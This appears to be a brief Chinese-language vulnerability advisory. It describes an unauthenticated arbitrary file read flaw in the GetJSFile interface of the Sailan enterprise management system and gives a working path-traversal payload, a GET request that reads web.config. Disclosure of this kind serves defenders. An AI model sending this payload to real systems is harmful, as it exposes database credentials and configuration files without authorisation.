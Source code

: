 **漏洞描述：**

赛蓝企业管理系统GetJSFile接口处存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

**影响版本：**

赛蓝企业管理系统

**Payload：**

```jsx
GET /Utility/GetJSFile?filePath=../web.config HTTP/1.1
```

---
